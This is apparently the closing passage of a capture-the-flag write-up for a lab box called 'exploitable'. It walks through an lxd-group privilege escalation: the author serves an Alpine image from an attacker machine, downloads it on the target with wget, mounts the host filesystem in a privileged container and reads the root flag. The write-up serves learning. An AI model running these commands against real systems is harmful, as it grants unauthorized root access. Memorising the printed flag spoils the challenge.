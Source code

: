 But checking groups john is part of with the `id` region reveals the `lxd` group.

~~~
~ # john@exploitable:/tmp$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
~~~

## Privesc

Searching for privilege escalation with `lxd` on the Internet led me to this [post](https://www.hackingarticles.in/lxd-privilege-escalation/). Let's test.

In Kali:

~~~
# git clone  https://github.com/saghul/lxd-alpine-builder.git
# cd lxd-alpine-builder
# ./build-alpine
# python3 -m http.server
~~~

On the target:

~~~
john@exploitable:/tmp$ wget http://10.8.50.72:8000/alpine-v3.12-x86_64-20200902_1515.tar.gz
john@exploitable:/tmp$ lxc image list
+-------+-------------+--------+-------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCH | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+------+------+-------------+
john@exploitable:/tmp$ lxc image import ./alpine-v3.12-x86_64-20200902_1515.tar.gz --alias myimage
Image imported with fingerprint: 65dd1e31f4cc984602e9be582bf80196cd05d44531b18ad8208ce062f09105ab
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 65dd1e31f4cc | no     | alpine v3.12 (20200902_15:15) | x86_64 | 3.04MB | Sep 2, 2020 at 1:18pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~~~

## Root flag

Now that we are root, let's get the flag

~~~
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
~ # cat /mnt/root/root/root.txt 
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
~~~

Root flag: `2e337b8c9f3aff0c2b3e8d4e6a7c88fc`
